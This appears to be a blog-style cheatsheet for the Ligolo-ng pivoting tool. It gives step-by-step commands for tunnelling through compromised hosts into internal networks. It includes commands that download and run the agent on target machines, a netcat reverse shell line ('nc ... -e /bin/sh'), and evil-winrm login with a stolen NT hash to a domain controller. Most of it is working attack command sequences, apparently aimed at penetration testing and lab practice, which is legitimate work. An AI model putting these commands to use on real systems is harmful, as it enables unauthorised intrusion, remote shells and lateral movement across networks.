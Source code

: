 ```yaml
---
layout: post
title:  Ligolo-ng Cheatsheet
description: Cheatsheet for Ligolo-ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Table of Contents
- [Getting Ligolo-ng](#getting-ligolo-ng)
- [Basic Pivot](#basic-pivot)
- [File Transfer Example with Single Pivot](#file-transfer-example-with-single-pivot)
- [Reverse Shell Example with Single Pivot](#reverse-shell-example-with-single-pivot)
- [Easy Double Pivot to Access a Second Internal Network](#easy-double-pivot-to-access-a-second-internal-network)
- [Fast Pipelines with same Port through Multiple Pivots](#fast-pipelines-with-same-port-through-multiple-pivots)

### Getting Ligolo.ng
Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).

#### Download the binaries manually (Recommended)
##### PROXY (Run this on Kali)
- [Linux 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

##### AGENT (Run this on Pivot Host)
- [Linux 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

#### Alternative with Package Installer
```shell
sudo apt install ligolo-ng

# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

### Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443

# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent

# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up

# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list

# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert

# The Ligolo-ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert

# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert

```

Now enter the following on the Ligolo-ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session

# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1

# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start

# Now we are able to access the network 172.16.150.0/24
```

### File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001

# Start Python server on Kali using Port 1234
python3 -m http.server 1234

# From the Host B CLI, access Python server through Port 9003 at the Pivot Host
wget http://172.16.150.10:9001/test.txt
```

### Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002

# Start nc listener on Kali Port 1235
nc -lvnp 1235

# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh

# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```

### Easy Double Pivot to Access a Second Internal Network
The following situation is given:
- We got access to the first internal network (172.16.150.0/24) through Administrator access at Pivot Host A (172.16.150.10).
- The Host B as access to another internal network (172.16.200.0/24).
- We will set a Second Pivot at Host B (172.16.150.20) to access the second internal network (172.16.200.0/24).

To achieve that, we can do the following:
```shell
# Connect with evil-winrm
evil-winrm -i 172.16.150.10 -u Administrator -H <NT_hash>

# Upload ligolo-ng agent.exe
upload agent.exe

# Set up a new ligolo interface on Kali
sudo ip tuntap add user Vorkharium mode tun ligolo2
sudo ip link set ligolo2 up

# Add the second internal network
sudo ip route add 172.16.200.0/24 dev ligolo2

# On the Ligolo-ng current session, create a new listener connecting to the Port 11601 of the first session
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601

# Run the agent.exe to create a connection from the Second Pivot Host to the First Pivot Host
./agent.exe --connect 172.16.150.10:11601 -ignore-cert

# On Ligolo-ng console - Show sessions
ligolo-ng » session

# Select the new session created from the Second Pivot Host
? Specify a session : 2 # automotors\Administrator@DC01 (Example of the name of the second pivot host)

# Start new Ligolo-ng session using the new interface "ligolo2" so it won't interfere with the first interface "ligolo"
[Agent : automotors\Administrator@DC01] » start --tun ligolo2

# Now we can access the second internal network 172.16.200.0/24
```
### Fast Pipelines with same Port through Multiple Pivots
```shell
# Note: Our Kali IP in this example is 192.168.45.200

# Add listeners inside Ligolo-Ng console
# On Session 1 - Pivot Host A (172.16.150.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# On Session 2 - Pivot Host B (172.16.200.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# Now we can access the Port 9000 in our Kali through Port 9000 on Pivot Host B and viceversa
172.16.200.1:9000 = 192.168.45.200:9000 = 127.0.0.1:9000
```
